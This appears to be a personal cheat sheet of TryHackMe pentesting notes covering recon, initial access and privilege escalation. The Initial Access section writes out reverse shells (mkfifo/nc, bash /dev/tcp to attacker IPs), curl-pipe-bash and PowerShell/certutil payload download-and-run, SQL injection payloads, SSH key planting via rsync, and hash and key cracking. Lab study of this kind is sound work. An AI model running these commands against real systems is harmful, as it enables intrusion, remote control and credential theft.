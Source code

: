 
# TryHackMe Experience
- Index
  - https://gist.github.com/AshtonIzmev/72f33ae4ff93a6603d55959b2b1e8078#file-thm_steps-sh
  - [Reconnaissance](https://github.com/sumo2001/Prep-Notes/tree/main/tryhackme#reconnaissance)
  - [Initial Access](https://github.com/sumo2001/Prep-Notes/tree/main/tryhackme#initial-access)
  - [Interesting files and paths](https://github.com/sumo2001/Prep-Notes/tree/main/tryhackme#interesting-files-and-paths)
  - [Esclation and Tweaks](https://github.com/sumo2001/Prep-Notes/tree/main/tryhackme#esclation-and-tweaks)


### Reconnaissance
- Better to configure /etc/hosts
- ss -ltp helps in look after listening network sockets on a host
- Nmap -sC -sV -v target   
  - sV tries to find out which services are running on the target
  - Pn disables the ping command and only scans ports.
  - sC is short form for script scan, based on services availble, it uses sripts to scan more
  - T<0-5>: Set timing template (higher is faster)
  - A Enable OS detection, version detection, script scanning, and traceroute
- gobuster dir -u http://10.10.164.212/ -w /usr/share/wordlists/dirb/common.txt -x php
  - dir fuzzer 
  - x: type of file to fuzz for
- nikto -h target
  - tool for enumerating information from Windows and Samba systems
- enum4linux target
  - tool for enumerating information from Windows and Samba systems 
- smbmap -H target 
  - SMBMap allows users to enumerate samba share drives across an entire domain. List share drives, drive permissions, share contents etc.
- smbclient //target/share
  - Mostly used in null sessions kinda samba exploitable directories
- rustscan -a target
  - The modern NMAp scanner  
- wfuzz -c -f domains -w /usr/share/wordlists/dirb/common.txt -u "http://cybercrafted.thm" -H "Host: FUZZ.cybercrafted.thm" --sc 200,403
  - Subdomain Enumeration 
  - sc:   Show responses with the  specified  code
- NFS Mount
  - sudo showmount -e 10.10.63.208 
  - mkdir /tmp/infosec
  - mount -t nfs 10.10.63.208:/opt/conf /tmp/infosec  
- rsync
  - rsync --list-only rsync://rsync-connect@10.10.190.83/files/sys-internal/
  - cp ~/.ssh/id_rsa.pub authorized_keys
  - rsync authorized_keys rsync://rsync-connect@10.10.190.83/files/sys-internal/.ssh   

### Initial Access
- Searchsploit nagios
  - searchsploit -m php/webapps/blah.txt  -> convert to py shell and read the comments/usage details in the the following code and input accordingly
  - python3 -m http.server 8080
  - Opens up a dedicated python server over the internet to serve files in that directory
  - http://10.9.2.90:8080/shell.sh | bash
 - nc -nlvp 1234
   - Opens up a netcat shell on attacker box for incoming connections 
 - python -c 'import pty; pty.spawn("/bin/bash")'  
   - Upgrade from a dump shell to  bash shell
 - powershell.exe Invoke-WebRequest -Uri https://10.10.10.10/shell.exe -OutFile ./shell.exe && .\shell.exe
   - powershell.exe — this is a shell in windows (other than cmd.exe) it is object oriented and it is the blue teams best friend and a hackers favorite mistress
   - Invoke-WebRequest — powershell module similar to curl
   - Uri — the target URI
   - OutFile — what the file downloaded will be called
   - .\shell.exe — execute the shell.exe in the current working directory
   - Get-Content user.txt
 - certutil.exe -urlcache -split -f http://10.17.8.104:8080/mysqld_evil.exe mysqld.exe
   - To download a payload from a remote server 
- 1' or '1'='1';-- -
  - SQL Injection Payloads 
  - sqlmap -r login.req --level 3 --risk 3 --forms --dump
- rm /tmp/f;mkfifo /tmp/f;cat /tmp/f|/bin/sh -i 2>&1|nc ip port >/tmp/f
  - mkfifo /tmp/f is creating a named pipe at /tmp/f.
  - cat /tmp/f is printing whatever is written to that named pipe and the output of cat /tmp/f is been piped to /bin/sh
  - /bin/sh is running interactively and stderr is redirected to stdout.
  - the output is then piped to nc which is listening on port 1234
  - and the out put is finally redirected to the named pipe again.
  - If we have a ‘PHP system’ remote code exec on the system, we will spawn a proper rev shell using nc

- /bin/bash -i >& /dev/tcp/10.2.96.144/4443 0>&1
  - Load this babe into a .sh file used during cronjob kinda exploits 
  - ?cmd=curl+http://10.2.96.144:8000/rev.sh+|+bash
  - Downloads and executes file
  - [Pentest Monkey Reverse PHP file](https://raw.githubusercontent.com/pentestmonkey/php-reverse-shell/master/php-reverse-shell.php)
 - haiti hash
   - Tool to detect type of hash
 - john --wordlist=./rockyou.txt --format=raw-sha1 hash.txt
   - Johnny johnny yes papa, crashing hash yes papa
 - ./ssh2john.py id_rsa > john_rsa
   - Converting an ssh key with a passphrase to john readble format to crack the passphrase
   - used to crack passphrases for id_rsa keys aka priv keys 
 - Considering we have remote access to a host via ssh, and a service is running on xxx port on a remote server : SSH Port forwarding
   - ssh -L 8111:127.0.0.1:8111 sys-internal@10.10.190.83   

### Interesting files and paths
- cd /var/www/html/wordpress/wp-config.php
- doas.conf
  - Check whether SSL is permitted to run as root! [permit nopass plot_admin as root cmd openssl]
  -  doas openssl enc -in "/root/root.txt"  
- SSH SOCKS PROXY
  - 10.10.72.205 is having an another eth1 interface connected with network address 172.16.20.0/24
  - within my local terminal is "ssh -D localhost:9050 -f -N adam@10.10.72.205"  
  - f to put the ssh to the background and -N to make it not execute a remote command
  - editing /etc/proxychains4.conf and adding socks4 127.0.0.1 9050
  - "proxychains nmap -F 172.16.20.0/24"

### Esclation and tweaks
- https://github.com/swisskyrepo/PayloadsAllTheThings
- su user
- sudo -l
- https://gtfobins.github.io/
  - Limuzzzzzz
- https://lolbas-project.github.io/  
  - Windows 
- find / -type f -perm -u=s 2>/dev/null
- getcap -r / 2>/dev/null 
- https://github.com/ly4k/PwnKit/blob/main/PwnKit.c
- curl -L https://github.com/carlospolop/PEASS-ng/releases/latest/download/linpeas.sh | sh



### References and boxes completed
1. https://tryhackme.com/room/techsupp0rt1
2. https://tryhackme.com/room/flatline
3. https://tryhackme.com/room/plottedtms
4. https://tryhackme.com/room/gallery666
5. https://tryhackme.com/room/cybercrafted
6. https://tryhackme.com/room/containme1
7. https://tryhackme.com/room/ide
8. https://tryhackme.com/room/vulnnetinternal
9. 
    
